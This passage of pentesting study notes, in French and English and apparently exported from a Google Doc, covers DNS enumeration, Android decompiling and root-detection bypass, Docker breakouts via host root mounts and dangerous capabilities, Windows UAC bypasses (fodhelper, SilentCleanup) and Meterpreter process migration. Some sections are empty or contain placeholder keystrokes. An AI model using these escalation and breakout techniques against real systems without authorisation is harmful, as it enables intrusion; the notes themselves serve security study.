<p id="gdcalert371" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image371.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert372">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


   </td>
   <td><strong>alternative to dig.</strong>
   </td>
  </tr>
  <tr>
   <td>

<p id="gdcalert372" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image372.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert373">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td><strong>Dnsenum &lt;dnsServ></strong>
<p>


<p id="gdcalert373" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image373.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert374">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


   </td>
   <td>
<ul>

<li><strong>Obtenez l'adresse de l'hôte (enregistrement A).</strong>
<ul>

<li><strong>Obtenez les nameservers.</strong>
<ul>

<li><strong>Obtenez l'enregistrement MX (fileté).</strong>
<ul>

<li><strong>Exécutez des requêtes axfr sur les serveurs de noms et obtenez BIND VERSION (threaded).</strong>
<ul>

<li><strong>Obtenez des noms et sous-domaines supplémentaires via google scraping</strong>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


<p id="gdcalert374" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image374.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert375">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* DNSSEC


<p id="gdcalert375" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image375.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert376">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* MISC
* **You can check the PTR records ( Reverse add ) to find some Vhosts of a site web ( multiple domaine in one server web, in one IP adr )**
31. Android


## Tools


<table>
  <tr>
   <td><strong>apktool</strong>
   </td>
   <td><strong>Tool for reverse</strong>
   </td>
  </tr>
  <tr>
   <td><strong>apktool d [FILE.APK]</strong>
<p>
<strong>apktool b [PREVIOUS OUTPUT]</strong>
   </td>
   <td><strong>decode the apk => smali</strong>
<p>
<strong>compile the ALL Smali folder</strong>
   </td>
  </tr>
  <tr>
   <td><strong>jad ( mauvais decompiler )</strong>
   </td>
   <td><strong>Java decompiler ( .class => .java )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>d2j-dex2jar [FILE.DEX]</strong>
   </td>
   <td><strong>.dex (Dalvik byte code,  dex is files in APK) => .jar</strong>
   </td>
  </tr>
  <tr>
   <td><strong>http://www.javadecompilers.com</strong>
   </td>
   <td><strong>Java decompiler ( .class => .java )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>jadx -d [OUTPUT_FOLDER] [APK_FILE]</strong>
   </td>
   <td><strong>Direct Java decompiler ( DEX => .JAVA )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Proguard</strong>
   </td>
   <td><strong>For Obfuscation</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* Decompile APK

    **Here 2 solutions for decompile :**

1. **APK ( .dex ) => SMALI ( readable code )**
2. **APK ( .dex ) => JAR -> .class => java code**

**When you create an application code, the apk file contains a .dex file, which contains binary Dalvik bytecode. This is the format that the platform actually understands.**

**However, it's not easy to read or modify binary code, so there are tools out there to convert to and from a human readable representation. The most common human readable format is known as Smali.**


* AndroidManifest.xml :

**Le fichier AndroidManifest.xml, qui se trouve à la racine de tout projet Android, est en quelque sorte une description complète de l’application (composantes, activités, services, permissions, fournisseurs de contenu, etc.).**

**for more information : [https://developer.android.com/guide/topics/manifest/manifest-intro](https://developer.android.com/guide/topics/manifest/manifest-intro)**

**En informatique, un fichier JAR (Java archive) est un fichier ZIP utilisé pour distribuer un ensemble de classes Java. Ce format est utilisé pour stocker les définitions des classes, ainsi que des métadonnées. On peut utiliser “unzip” dessus pour retrouver des fichier .class.**


* Root détection :

**Nowadays many applications such as financial, banking, payment wallet applications do not work on the rooted device. Pentesting requires root permission to install various tools to compromise the security of the application and it is a very painful job for any pentester if the app does not work on the rooted device that restricts the tester from performing various test cases.**


* Bypass root detection :


<p id="gdcalert376" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image376.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert377">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Android Activity lifecycle :

**	**


<p id="gdcalert377" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image377.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert378">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Rooting and Jailbreaking : 

    **These terms refer to gaining administrator authorizations in your device**

* **Here the differences between using java itself and java for android :**


<p id="gdcalert378" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image378.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert379">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Signing mobile application :

**In general, the recommended strategy for all developers is to sign all of your applications with the same certificate. There are several reasons why you should do so :**

**Application upgrade – As you release updates to your application, you must continue to sign the updates with the same certificate or set of certificates, if you want users to be able to upgrade seamlessly to the new version. When the system is installing an update to an application, it compares the certificate(s) in the new version with those in the existing version. If the certificates match exactly, including both the certificate data and order, then the system allows the update.**

**Application modularity – The Android system allows applications that are signed by the same certificate to run in the same process, if the applications so requests, so that the system treats them as a single application. In this way you can deploy your application in modules, and users can update each of the modules independently if needed.**

**Code/data sharing through permissions – The Android system provides signature-based permissions enforcement, so that an application can expose functionality to another application that is signed with a specified certificate. By signing multiple applications with the same certificate and using signature-based permissions checks, your applications can share code and data in a secure manner.**


## 
    MISC


* **En faisant du debugging ( exemple avec ADB ), on peut lancer et contrôler n’importe quelle Activity d’une application sur Android.**
* **Unlike programming paradigms in which apps are launched with a main() method, the Android system initiates code in an Activity instance by invoking specific callback methods that correspond to specific stages of its lifecycle.**

    **The mobile-app experience differs from its desktop counterpart in that a user's interaction with the app doesn't always begin in the same place. For instance, if you open an email app from your home screen, you might see a list of emails.**


    **By contrast, if you are using a social media app that then launches your email app, you might go directly to the email app's screen for composing an email.**

32. IOS

## 
        Tools


<table>
  <tr>
   <td>
<strong>Cycript</strong>
   </td>
   <td><strong>Allows developers to explore and modify running applications on either iOS or Mac OS X </strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* MISC

**There are really just two languages used for iOS development. The primary languages that dominate are Objective-C and Swift. Of course, you can use all kinds of different languages to code iOS apps.**

**.ipa est un fichier d'archives qui stocke une application iOS. Chaque fichier .ipa comprend un binaire et ne peut être installé que sur un appareil Mac OS basé sur iOS ou ARM. Les fichiers portant l'extension peuvent être changés par l'extension en .zip et en les décompressant et pour accéder plus facilement aux fichiers à l'intérieur.**


33. Reverse
* Techniques d’anti-reverse :
1. Polymorphisme et métamorphisme

    **Les codes malveillants se réécrivent automatiquement à chaque réplication pour que la signature du malware soit modifiée, on parle de polymorphisme.**


    **Le métamorphisme est une technique qui automatise un polymorphisme afin que chaque propagation d’un malware entraîne une réécriture automatique du malware. **


    **Elle peut par exemple prendre la forme d’une addition de NOP, de la permutation de registres, de l’addition d’instructions ou boucles inutiles, du réordonnancement des fonctions, de la modification du flux du programme… **

2. Packer

**	Les packers sont des programmes qui permettent de cacher les**


    **malwares aux antivirus, de compliquer l’analyse et de réduire la taille des exécutables.**


    **Les packers permettent notamment de rendre l’analyse statique inutile, à moins de réussir à les contourner.**


    **Le principe de fonctionnement des packers est de transformer un exécutable en un autre plus petit, qui va contenir l’ancien exécutable sous forme de données, ainsi qu’un système d’unpacking appelé par le système d’exploitation.**


    **Pour contrer un packer il est nécessaire de réaliser l’opération inverse à celle qui a été réalisée.**


<p id="gdcalert379" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image379.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert380">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


3. Anti-virtualisation et anti-émulation

    **L’analyse de codes malveillants nécessite un environnement contrôlé. Beaucoup d’analystes vont donc choisir d’utiliser des machines virtuelles, présentant de plus l’avantage de pouvoir revenir facilement à un état enregistré. C’est pourquoi les créateurs de malwares ont commencé à y implémenter des éléments anti-machines virtuels (anti-VM) ( notamment en exploitant des informations divulguées par les Hyperviseurs ) .**

34. Container Security

**[https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html)**


* Definition

**Ce sont des environnements Linux isolés. **

**Un conteneur virtualise le système de fichier.**

**By default, containers are run as root. dockerd (the docker daemon) runs as root, and this is normal. root is needed to configure certain container aspects needed to function correctly. There may be ways of running without root, but it’s fine as it is.**

**Le problème majeur, souvent négligé dans l’engouement qui prévaut aujourd’hui pour les conteneurs, est celui de la sécurité car il partage de ressource avec l’hôte et de se fait des privilege trop élevé peut compromettre l'hôte. **

<p id="gdcalert380" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image380.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert381">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert381" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image381.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert382">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


## 
                Some Commands


<table>
  <tr>
   <td><strong>docker image ls</strong>
   </td>
   <td><strong>check for containers enabled in the machine</strong>
   </td>
  </tr>
  <tr>
   <td><strong>docker run -v /root/:/mnt -t [DOCK_IMAGE]</strong>
   </td>
   <td><strong>Mount a container with the DOCK_IMAGE and it will make the root files accessible inside the /mnt.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>docker version</strong>
   </td>
   <td><strong>print docker version</strong>
   </td>
  </tr>
  <tr>
   <td><strong>docker host</strong>
   </td>
   <td><strong>Check host Information</strong>
   </td>
  </tr>
  <tr>
   <td><strong>docker pull</strong>
   </td>
   <td><strong>Pull an image or a repository from a registry</strong>
   </td>
  </tr>
  <tr>
   <td><strong>docker run -dt [IMAGE]</strong>
   </td>
   <td><strong> Run image in background mode</strong>
   </td>
  </tr>
  <tr>
   <td><strong>docker run -it [IMAGE]</strong>
   </td>
   <td><strong> Run image in interactive mode</strong>
   </td>
  </tr>
  <tr>
   <td><strong>docker ps</strong>
   </td>
   <td><strong>List running containers</strong>
   </td>
  </tr>
  <tr>
   <td><strong> docker inspect [CONTAINER_ID]</strong>
   </td>
   <td><strong>Inspect a container</strong>
   </td>
  </tr>
  <tr>
   <td><strong> docker container</strong>
   </td>
   <td><strong>Manage containers</strong>
   </td>
  </tr>
  <tr>
   <td><strong>docker image</strong>
   </td>
   <td><strong>Manage image</strong>
   </td>
  </tr>
  <tr>
   <td><strong> docker network</strong>
   </td>
   <td><strong>Manage docker networks</strong>
   </td>
  </tr>
  <tr>
   <td><strong>docker attack [CONTAINER_ID]</strong>
   </td>
   <td><strong>enter in Interact mode to the container</strong>
   </td>
  </tr>
  <tr>
   <td><strong>docker exec -it [CONT_ID] /bin/sh</strong>
   </td>
   <td><strong>Execute a command in a running container</strong>
   </td>
  </tr>
  <tr>
   <td><strong>docker stop [CONT_ID]</strong>
   </td>
   <td><strong>Stop a container</strong>
   </td>
  </tr>
  <tr>
   <td><strong>docker start [CONT_ID]</strong>
   </td>
   <td><strong>Start a stopped container</strong>
   </td>
  </tr>
  <tr>
   <td><strong>docker kill [CONT_ID]</strong>
   </td>
   <td><strong>Kill a running container</strong>
   </td>
  </tr>
  <tr>
   <td><strong>docker rmi -f [IMAGE]</strong>
   </td>
   <td><strong>Remove image by name or ID</strong>
   </td>
  </tr>
  <tr>
   <td><strong>docker run -it -v /:/host/ ubuntu:18.04 bash</strong>
   </td>
   <td><strong>Start an Ubuntu container. Mount root directory of host machine on /host directory of the</strong>
<p>
<strong>container</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* Registre Docker


<p id="gdcalert382" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image382.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert383">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Docker Compose


<p id="gdcalert383" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image383.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert384">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Dockerfile


<p id="gdcalert384" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image384.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert385">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**In the scenario where a container has an Ip address 172.17.0.2, the host machine mostly creates an interface which acts as gateway for Docker network. And, generally the first IP address of the range is used for that i.e. 172.17.0.1 in this case.**


**172.17.0.1 is the IP address of the host in the Docker network.**


## 
Container Breakouts :


**By default, the Docker containers run with limited capabilities. Therefore to perform a privileged operation (like updating time, debugging process etc) the container requires additional capabilities. And, most of the time instead of defining the specific capabilities, people just run the container in the privileged mode which can lead to compromise of the underlying host machine using additional capabilities like CAP_SYS_ADMIN.**


** capsh --print => Check the capabilities provided in a docker container**

**Dangerous capabilities on container**


<table>
  <tr>
   <td><strong>SYS_ADMIN</strong>
   </td>
   <td><strong>leveraged by mounting the root file system ( and then read all host file system )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>SYS_PTRACE</strong>
   </td>
   <td><strong>Allow process debugging.</strong>
<p>
<strong>Leveraged by injecting a bind shell into a host machine process. ( you can do “everything” when you debug a process ).</strong>
   </td>
  </tr>
  <tr>
   <td><strong>SYS_MODULE </strong>
   </td>
   <td><strong>The container can insert/remove kernel modules in/from the kernel of the host machine.</strong>
<p>
<strong>For example, an attacker invokes a reverse shell with the help of usermode Helper API (used to create user mode processes from kernel space) :</strong>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td><strong>docker ps --quiet --all | xargs docker inspect --format '{{ .Id }}: SecurityOpt={{ .HostConfig.SecurityOpt }}'</strong>
   </td>
   <td><strong>This returns either &lt;no value> or your modified seccomp profile. If it returns [seccomp:unconfined], the container is running without any seccomp profiles and is therefore not configured in line with good security practices.</strong>
   </td>
  </tr>
  <tr>
   <td>DAC_READ_SEARCH
   </td>
   <td>bypass file read permission checks and directory read and execute permission checks.
<p>
Using any mounted file in a container, it's possible to get access on files in the host system.
   </td>
  </tr>
  <tr>
   <td>DAC_OVERRIDE
   </td>
   <td>allows a container to bypass file read, write, and execute permission checks.
<p>
Combined with DAC_READ_SEARCH capability, it can be exploited to escape a container using a famous exploit named Shocker.
   </td>
  </tr>
</table>


* Misc

**- To enable services running inside the container to communicate with Docker daemon, it's a very common practice to mount the Docker UNIX socket inside the container. However, every time you have access to the Docker Socket (default location: /var/run/docker.sock) it means that you are root on the host.**


**Docker CLI uses two main channels to communicate with the Docker daemon ( server ):  - UNIX socket for local management (/var/run/docker.sock)**


**- TCP/SSL for remote management. AS soon as the daemon is running by the root**


<p id="gdcalert385" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image385.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert386">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Namespaces provide the first and most straightforward form of isolation: processes running within a container cannot see, and even less affect, processes running in another container, or in the host system.**


**There are multiple administrative tools available today which helps developers and operation teams in managing Docker hosts/swarms. Such tools require high privileges to perform various operations (e.g. starting a container with special capabilities, attaching to any container etc.).  However, if they are not protected well, they can lead to compromise the entire system.**


**La plupart des capability nécessitent d’avoir un accès root sur le conteneur pour être exploité. Ceci ajoute une étape supplémentaire à l’attaquant.**


**Conventionally Docker daemon is configured to listen on port 2375 for API requests sent over unencrypted connections. Whereas 2376 is used for encrypted connections.**


**Seccomp is essentially a mechanism to restrict system calls that a process may make, so the same way one might block packets coming from some IPs, one can also block processes from sending system calls to the CPU. When you run a container, it uses the default profile seccomp unless you override it with the --security-opt options.**


**A single manifest is information about an image, such as layers, size, and digest. The docker manifest command also gives users additional information such as the os and architecture an image was built for.**


**Basically, a layer, or image layer is a change on an image, or an intermediate image. Every command you specify (FROM, RUN, COPY, etc.) in your Dockerfile causes the previous image to change, thus creating a new layer.**

35. S3 (Simple Storage Service) AWS (Amazon Web Services)
* Définition

**The Amazon Web Services (AWS) Simple Storage Service (S3) is a common cloud-based storage service frequently used by developers.**


* S3 Buckets

**S3 buckets : AWS's name of choice for the storage vessel ( “cuve de stockage” ).  **

**S3 vulnerability can occur due to misconfiguration, leading to disclosure of sensitive information.**

**Buckets and objects are S3 resources. By default, only the resource owner can access these resources. The resource owner refers to the AWS account that creates the resource. Access policy ( Bucket policies, ACLs, …) describes who has access to what.**

**Accordingly, you can categorize the available S3 access policies as Resource-based policies or User Policies.**


* ACL ( Access control list )

**ACLs are used to grant basic read/write permissions to other AWS accounts. Each bucket and object has an ACL associated with it.**


<p id="gdcalert386" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image386.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert387">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**S3 supports a set of predefined grants, known as canned ACLs**


<p id="gdcalert387" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image387.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert388">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert388" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image388.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert389">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert389" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image389.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert390">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert390" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image390.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert391">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


36. Smart Contract

**gggggggggggggg**

**gfgdfgdfgdfgdfg**


37. Windows in general


## Commands


<table>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* NT hash

            **Windows NT hashes passwords before storing them in the SAM database. ... Each unique password produces an unpredictable hash. When a user logs on and enters a password, NT hashes the candidate password and compares it to the user's official hash in the SAM. If the hashes match, NT authenticates the user.**

* Hiberfill.sys file

            **Sur Windows, il y a plusieurs moyens d’économiser de l’énergie avec votre PC. Vous pouvez tout simplement l’éteindre ou bien le mettre en veille ou encore en veille prolongée.**


            **Et bien c’est justement cette veille prolongée qui va avoir besoin du fichier hiberfil.sys. Dans ce fichier sera recopiée la totalité de votre mémoire vive sur votre disque système.**


            **Alors oui, plus vous avez de mémoire vive, plus ce fichier sera volumineux.**


            **Ce fichier est compressé ( de différente manière selon le système ). Avant de l’utiliser sur Volatility, il faut le décompresser.**

* DLL Hijacking definiton

**A DLL or a Dynamic Link Library is a library that contains code and data that can be used by more than one program at the same time.**

**Much of the operating system and application functionality resides in the DLLs. You can identify missing DLL paths used by applications, and perform DLL Hijacking to escalate privileges.**


## DLL Hijacking techniques


<table>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* UAC Bypass definiton

**User Account Control or UAC is a security feature of Microsoft Windows. It enforces mandatory access control to prevent unauthorized changes to the operating system. For a user application to make any changes, administrator authorization is required. UAC prevents malware and other malicious programs from compromising the operating system.**

**UAC permet de définir pour chaque programme qui est lancé un niveau de privilèges indépendant des droits possédés par l'utilisateur actif.**

**Un administrateur local se voit ainsi attribuer au niveau du système deux jetons d'accès (access tokens). Le premier est celui qui englobe tous ses droits et ses privilèges administrateur, le second est un dérivé du premier, dit « filtré », qui contient des privilèges d'utilisateur standard. Par défaut, si UAC est activé, c'est le jeton filtré qui est utilisé, à moins qu'un programme signale qu'il doit être élevé pour fonctionner, c’est-à-dire exécuté dans un contexte administratif ( une fenêtre s’affiche ). Si l'utilisateur n'est pas administrateur, il doit en outre saisir le mot de passe d'un administrateur actif pour exécuter le programme.**

**Il n'est donc plus possible qu'un programme nécessitant des droits administrateurs soit lancé de “manière invisible”.**


## UAC bypass techniques


<table>
  <tr>
   <td><strong>Using Fodhelper utility :</strong>
<p>
<strong>When a user is requesting to open “Manage Optional Features” in Windows Settings in order to make a language change a process is created under the name fodhelper.exe.</strong>
<p>
<strong>This binary has the auto-elevate setting to “true” ( High integrety ). </strong>
<p>
<strong>It has been discovered that the “fodhelper” process when it starts tries to find some registry keys which don't exist.</strong>
<p>


<p id="gdcalert391" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image391.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert392">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p>
<strong>Since these registry entries don't exist, a user can create this structure in the registry in order to manipulate fodhelper to execute a command with higher privileges bypassing the User Account Control (UAC).</strong>
   </td>
  </tr>
  <tr>
   <td><strong>SilentCleanup scheduled task:</strong>
<p>
<strong>This task automatically runs with elevated privileges. When the task runs, it will execute the file %windir%\system32\cleanmgr.exe. The misconfiguration is that we can control the user's environment variables i.e %windir% we can change it to execute a malicious executable.</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
</table>


* Process migration :

**After a successful exploitation, such as, tricking a victim to execute a Meterpreter executable, gaining RCE an executing a generated Meterpreter payload ,Meterpreter process has to be migrated to:**


* **Hiding the process to gain persistence and avoid detection.**
* **Change the process architecture to execute some payloads with the current architecture. For example, if there is a 64-bits system and our meterpreter process is 86-bits, some architecture-related problems could happen if we try to execute some exploits against the session gained.**
* **Migrate to a more stable process.**
* Misc
* **Pour les habitués des systèmes Linux, vous utilisez certainement le couple "Shell - SSH" pour administrer votre machine à distance. Sous Windows, on trouve l'équivalent "PowerShell - WinRM".**
38. Wifi

## 
Tools


<table>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* SSID
* **Le SSID (Service Set IDentifier) est tout simplement le nom d’un réseau WiFi, composé au maximum de 32 caractères alphanumériques. Il permet donc d’identifier le réseau ou le hotspot WiFi sur lequel vous pouvez vous connecter. Attention, le SSID doit toujours être accompagné d’autres mesures de sécurité, comme un protocole de chiffrement WPA, pour assurer une protection correcte des internautes surfant sur le réseau. Sinon on appelle ça un Open SSID ( sans mot de passe ).**
* WLAN
* **L'acronyme WLAN, pour Wireless Local Area Network, désigne un type de réseau local qui a la particularité d'être sans fil ( environ une centaine de mètres )**
* WPA PSK


<p id="gdcalert392" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image392.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert393">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* WPA ou WPA2


<p id="gdcalert393" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image393.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert394">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* WPA-Personal vs WPA-Entreprise


<p id="gdcalert394" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image394.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert395">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**CCMP = Il s’agit du sigle pour CBC-MAC **Counter Mode** Protocol.**

* Confidentialité : utilisation d’une variante de CTR mode : On utilise juste un compteur initialisé dès le début, non concaténé avec une nonce.
* CBC-MAC => pour l’authentification
* WPA/WPA2 MGT


<p id="gdcalert395" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image395.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert396">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert396" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image396.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert397">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Protocole WPS

**- Le but du protocole WPS est de simplifier la phase de configuration de la sécurité des réseaux sans fil. Il permet à des particuliers ayant peu de connaissances sur la sécurité de configurer un accès WPA, supporté par les appareils Wi-Fi.**

* AP ( Access Point )
* **Access Point (AP) est un appareil permettant de nous relier au switch par ondes radio à la place de câbles :**

    

<p id="gdcalert397" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image397.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert398">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* BSSID
* **BSSID : AP MAC Address**
* BSS
* **Un ensemble formé par le point d'accès (AP) et les stations situés dans sa zone de couverture est appelé ensemble de services de base (BSS).**


